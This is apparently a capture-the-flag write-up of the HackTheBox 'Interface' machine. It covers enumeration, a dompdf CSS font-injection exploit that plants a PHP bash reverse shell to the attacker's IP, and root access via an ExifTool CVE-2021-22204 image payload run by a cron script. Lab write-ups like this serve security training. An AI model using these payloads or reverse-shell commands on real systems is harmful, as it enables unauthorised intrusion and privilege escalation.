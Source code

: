 
# Introduction
Interface is a medium difficulty machine on HackTheBox website which is an interesting one because it makes you learn about using CSS in exploiting web application which is crazy because most of us are used to using technologies like PHP, Javascript anything like that to exploit web applications so let's dive into it.
# Initial scanning
First I fired up an Nmap scan to discover open ports on the machine.
```bash
┌──(kali㉿kali)-[~/HTB/interface]
└─$ nmap -sC -sV 10.10.11.200
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 13:35 EDT
Nmap scan report for 10.10.11.200
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7289a0957eceaea8596b2d2dbc90b55a (RSA)
|   256 01848c66d34ec4b1611f2d4d389c42c3 (ECDSA)
|_  256 cc62905560a658629e6b80105c799b55 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site Maintenance
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.30 seconds
```
And we found two open ports which are 22 for SSH and 80 for HTTP which indicates that there a website running on this machine so I fired up Firefox and tried to view the website but it showed that the website is still under maintenance and they will be back soon!
![image](/Interface/img/1.png)
After that I tried to find any hidden directory but I didn't find anything so I tried to intercept the response of the GET request using Burpsuite and I found a hidden subdomain for the website so I added it to my hosts file on kali linux
![image](/Interface/img/2.png)
So I tried to open the subdomain on the web browser and I didn't get anything so I tried to curl the subdomain and it gave me ***NOT FOUND***
```bash
┌──(kali㉿kali)-[~/HTB/interface]
└─$ curl http://prd.m.rendering-api.interface.htb
File not found.
```
So I fired up Gobuster to discover if there were some hidden directories in this subdomain and found two which are **/vendor** and **/api** so I tried to dig deeper in those directories and I discovered that the **/vendor** directory has two directories in it which are **dompdf** and **composer** 
```bash
┌──(kali㉿kali)-[~/HTB/interface]
└─$ gobuster dir -u http://prd.m.rendering-api.interface.htb/vendor -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://prd.m.rendering-api.interface.htb/vendor
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 06:28:35 Starting gobuster in directory enumeration mode
===============================================================
/dompdf               (Status: 403) [Size: 15]
/composer             (Status: 403) [Size: 15]
```
and I found [this exploit](https://github.com/positive-security/dompdf-rce) which exploits the dompdf software. continuing in discovering more directories I found html2pdf directory but using the POST method
```bash
┌──(kali㉿kali)-[~/HTB/interface]
└─$ wfuzz -c --hh=50 --hw=13 -X POST -t 200 -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt http://prd.m.rendering-api.interface.htb/api/FUZZ 


********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://prd.m.rendering-api.interface.htb/api/FUZZ
Total requests: 30000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                               
=====================================================================

000006080:   422        0 L      2 W        36 Ch       "html2pdf" 
```
# Initial Foothold
So after I found all of this useful information I went on to use the exploit we found earlier so first I downloaded it and modified it to connect the shell to my local machine
```bash
┌──(kali㉿kali)-[~/HTB/interface]
└─$ git clone https://github.com/positive-security/dompdf-rce                                                                      
Cloning into 'dompdf-rce'...
remote: Enumerating objects: 343, done.
remote: Counting objects: 100% (343/343), done.
remote: Compressing objects: 100% (271/271), done.
remote: Total 343 (delta 67), reused 329 (delta 62), pack-reused 0
Receiving objects: 100% (343/343), 3.99 MiB | 3.20 MiB/s, done.
Resolving deltas: 100% (67/67), done.
┌──(kali㉿kali)-[~/HTB/interface]
└─$ cd dompdf-rce/exploit
┌──(kali㉿kali)-[~/HTB/interface/dompdf-rce/exploit]
└─$ cat exploit.css     
@font-face {
    font-family:'exploitfont';
    src:url('http://localhost:9001/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
┌──(kali㉿kali)-[~/HTB/interface/dompdf-rce/exploit]
└─$ cat exploit_font.php 

� dum1�cmap
           `�,glyf5sc��head�Q6�6hhea��($hmtxD
loca
Tmaxp\ nameD�|8dum2�
                     -��-����
:83#5:08��_<�
             @�8�&۽
:8L��

:D

6                               s
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.83/1234 0>&1'") ?>
```
after you modify the payload you should fire up a python HTTP server and send a request to the /api/html2pdf directory
![image](Interface/img/3.png)
```bash
┌──(kali㉿kali)-[~/HTB/interface/dompdf-rce/exploit]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.200 - - [06/May/2023 10:17:53] "GET /exploit.css HTTP/1.0" 200 -
10.10.11.200 - - [06/May/2023 10:17:54] "GET /exploit_font.php HTTP/1.0" 200 -
```
after that you generate a md5 hash of the url of the request
```bash
┌──(kali㉿kali)-[~]
└─$ echo -n 'http://YOUR_IP/exploit_font.php' | md5sum                                                                                       
d4ddc9a6119c39714e3a5ea171d6f78f  -
```
after that you send a POST request to the PHP file 
```bash
┌──(kali㉿kali)-[~]
└─$ curl -s -X POST -i http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_d4ddc9a6119c39714e3a5ea171d6f78f.php
```
and WOHOOO we get a reverse shell as www-data
# Privilage Escalation
so after I was able to gain access to the machine I started the privilage escalation process and I that there is a script called cleancache.sh in /usr/local/sbin/ so I read it.
```bash
www-data@interface:/home/dev$ cat /usr/local/sbin/cleancache.sh 
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do

    if [[ -f "$cfile" ]]; then

        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)

        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi

    fi

done
```
this script deletes any file which contains dompdf in its data and it uses Exiftool to do this so I showed the version number of Exiftool and I found an exploit to it so git cloned it and it generated an image with the payload in its metadata so I waited for few seconds for the cron job to work and  it worked!!!
```bash
karim@DESKTOP-O22KFUH:~/exploit-CVE-2021-22204$ python3 exploit-CVE-2021-22204.py -c "chmod u+s /bin/bash"

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....

UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
PAYLOAD: (metadata "\c${system('chmod u+s /bin/bash')};")
DEPENDS: Dependencies for exploit are met!
PREPARE: Payload written to file!
PREPARE: Payload file compressed!
PREPARE: DjVu file created!
PREPARE: JPEG image created/processed!
PREPARE: Exiftool config written to file!
EXPLOIT: Payload injected into image!
CLEANUP: Old file artifacts deleted!
SUCCESS: Exploit image written to "image.jpg"
```
```bash
www-data@interface:~$ wget http://10.10.14.17/gato.jpeg --2023-02-24 00:23:13-- http://10.10.14.17/gato.jpeg Connecting to 10.10.14.17:80... connected. HTTP request sent, awaiting response... 200 OK Length: 196657 (192K) [image/jpeg] Saving to: 'image.jpg' gato.jpeg 100%[===================>] 192.05K 1.15MB/s in 0.2s 2023-02-24 00:23:14 (1.15 MB/s) - 'image.jpeg' saved [196657/196657] 
www-data@interface:~$ mv image.jeg /tmp
www-data@interface:~$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1113504 Apr 18 2022 /bin/bash 
www-data@interface:~$ bash -p 
bash-4.4# cat /root/root.txt
bash-4.4#
```